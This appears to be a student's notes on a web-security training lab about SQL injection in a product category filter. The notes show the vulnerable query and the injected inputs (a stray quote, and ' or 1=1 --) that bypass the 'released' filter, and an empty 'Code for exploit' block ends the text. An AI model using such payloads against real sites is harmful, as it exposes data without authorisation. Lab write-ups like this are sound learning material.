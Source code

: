 # Lab 1
## SQL METHOD
 1. SQL Injection - product category filter


 2. SELECT * FROM products WHERE category = 'Gifts' AND released = 1

 3. END GOAL : - display all products release and unreleased 

## Injection method  
    SELECT * FROM products WHERE category = 'Gifts' AND released = 1

 ### 
    1. to break above query  i have to insert ' in category field 

    2. SELECT * FROM products WHERE category = ''--' AND released = 1

    3. SELECT * FROM products WHERE category = '' or 1=1 -- and released = 1


## Result 

    The above method break the sql query and show the all products

###
    Reason for the result of the above query is 
    it select all products without "and" statement so it display all products without filter


## Code for exploit
    '''python
    


